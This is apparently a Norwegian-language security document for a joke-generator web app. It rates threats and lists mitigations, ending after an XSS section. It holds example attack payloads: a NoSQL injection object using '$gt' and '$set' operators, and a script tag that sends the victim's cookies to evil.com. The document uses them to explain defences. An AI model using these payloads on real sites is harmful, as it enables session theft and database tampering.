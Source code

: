 # Sikkerhetsdokumentasjon - Vits-Generator

## Oversikt

Dette dokumentet beskriver potensielle sikkerhetstrusler mot Vits-Generator systemet og tiltak for å redusere risiko for sikkerhetsbrudd.

## Identifiserte Angrepstyper

### 1. SQL Injection / NoSQL Injection

**Beskrivelse**: Angriper forsøker å injisere ondsinnet kode i database-spørringer for å få uautorisert tilgang til data eller manipulere databasen.

**Sannsynlighet**: Middels  
**Konsekvens**: Høy  
**Risiko**: Høy

**Eksempel på angrep**:
```javascript
// Ondsinnet input i vurdering
{
  "rating": {"$gt": 0},
  "$set": {"averageRating": 5}
}
```

**Tiltak**:
1. ✅ Mongoose bruker parameteriserte spørringer som standard
2. ✅ Input-validering på alle API-endepunkter
3. ✅ Type-sjekking og sanitering av brukerinput
4. ✅ Begrensede database-rettigheter

**Implementasjon**:
```javascript
// Backend validering
if (!rating || typeof rating !== 'number' || rating < 1 || rating > 5) {
  return res.status(400).json({ error: 'Ugyldig vurdering' });
}
```

### 2. Cross-Site Scripting (XSS)

**Beskrivelse**: Angriper injiserer ondsinnet JavaScript-kode som kjøres i andre brukeres nettlesere.

**Sannsynlighet**: Høy  
**Konsekvens**: Middels  
**Risiko**: Høy

**Eksempel på angrep**:
```html
<!-- I en vits -->
<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
```
